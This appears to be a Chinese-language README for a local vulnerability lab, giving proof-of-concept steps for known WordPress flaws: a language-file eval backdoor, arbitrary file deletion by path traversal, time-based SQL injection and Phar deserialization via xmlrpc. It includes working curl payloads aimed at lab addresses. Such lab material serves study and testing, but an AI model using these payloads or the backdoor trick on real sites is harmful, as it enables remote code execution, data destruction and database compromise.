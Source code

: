 ## 环境说明

- src/wordpress/4.6.1/

  - 后台地址

    http://127.0.0.1/wp-login.php

  - 账号/密码

    admin/admin

- src/wordpress/4.9.8/

  - 后台地址

    http://127.0.0.1/wp-login.php

  - 账号/密码

    admin/admin

  - 说明

    从4.6.1升级产生，已安装插件**WooCommerce**



## gettext + create_function 构建 wordpress 后门

测试镜像

* src/wordpress/4.6.1/

参考链接

* [Wordpress <= 4.6.1 使用语言文件任意代码执行漏洞分析](https://paper.seebug.org/63/)

Poc

1. [下载语言文件](https://translate.wordpress.org/projects/wp/4.6.x/zh-cn/default)
2. 编辑 PO 文件，修改 `Plural-Forms`
   * e.g `"Plural-Forms: nplurals=1; plural=@eval($_GET[0]);\n"`
3. 在 wordpress 后台使用这个语言文件   
4. 访问 /index.php?0=phpinfo(); 进行测试




## Wordpress <= 4.9.6 任意文件删除漏洞

测试镜像

- src/wordpress/4.6.1/

影响版本

- wordpress <= 4.9.6

参考链接

- [Wordpress <= 4.9.6 任意文件删除漏洞](https://xz.aliyun.com/t/2413)

Poc

1、登录后台，在Dashboadrd->Media->Add New处上传任意图片（如 src/wordpress/4.6.1/demo.jpeg）

2、点击edit编辑上传的图片，记录url中的item或post参数，如post=4

3、在edit页面上查找包含_wpnonce的input标签，记录value

`<input type="hidden" id="_wpnonce" name="_wpnonce" value="c9d6fb475f">`

4、浏览器中提取登录后的cookie，执行curl修改thumb为要删除的文件（环境中预先创建了用于测试的test_del_file.txt文件）：

```shell
curl 'http://172.17.0.2/wp-admin/post.php?post=4' --cookie "登录后的cookie" -d 'action=editattachment&_wpnonce=c9d6fb475f&thumb=../../../../test_del_file.txt'
```

5、在编辑图片页面点击Delete Permanently删除上传的图片，触发漏洞删除文件test_del_file.txt



## Wordpress <= 4.8.2 SQL注入漏洞

测试镜像

- src/wordpress/4.6.1/

影响版本

- wordpress <= 4.8.2

参考链接

- [WordPress ≤ 4.8.2 POST META 校验绕过漏洞](http://www.freebuf.com/vuls/153959.html)

Poc

1、登录后台，在Dashboadrd->Media->Add New处上传任意图片（如 src/wordpress/4.6.1/demo.jpeg）

2、编辑上传的图片，记录url中的post或item参数，如post=4

3、在Posts->All Posts中点击任意文章进行编辑，记录url中的post参数值，如post=1，在html中搜索_ajax_nonce-add-meta，记录value，如 `ajax_nonce-add-meta=24fb4aa9b9"`

4、浏览器中提取登录后的cookie，执行curl添加字段，参数_ajax_nonce-add-meta为3中提取的值，metavalue开头数字为上传图片的item值，这里为4，post_id为3中获取的post：

```shell
curl 'http://172.17.0.2/wp-admin/admin-ajax.php' --cookie "登录后的cookie" -d '_ajax_nonce=0&action=add-meta&metakeyinput=%00_thumbnail_id&metavalue=4%20%251$%25s%20or%20sleep(10)%23&_ajax_nonce-add-meta=24fb4aa9b9&post_id=1'
```

5、在http://172.17.0.2/wp-admin/edit.php页面上查找包含_wpnonce的input标签，记录value

`<input type="hidden" id="_wpnonce" name="_wpnonce" value="233a3d3d36">`

6、使用获取的\_wpnonce参数访问`http://172.17.0.2/wp-admin/edit.php?action=delete&_wpnonce=获取的参数&ids=4%20%251$%25s%20or%20sleep(10)%23`触发漏洞（产生查询延迟）



## Wordpress Phar反序列化漏洞

测试镜像

- src/wordpress/4.9.8/

影响版本

- wordpress <= 4.8.9 尚未修复

参考链接

- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)

Poc

测试镜像中已经完成了上传包含phar序列化payload的文件，只需要触发反序列化即可，如果需要生成其他的payload，可以使用以下命令生成并上传：

```shell
php -d phar.readonly=false gen-phar-payload.php
```

测试命令

```shell
curl -d "<?xml version="1.0" encoding="utf-8"?><methodCall><methodName>wp.getMediaItem</methodName><params><param><value><string>11</string></value></param><param><value><string>admin</string></value></param><param><value><string>admin</string></value></param><param><value><int>12</int></value></param></params></methodCall>"  http://127.0.0.1/xmlrpc.php
```



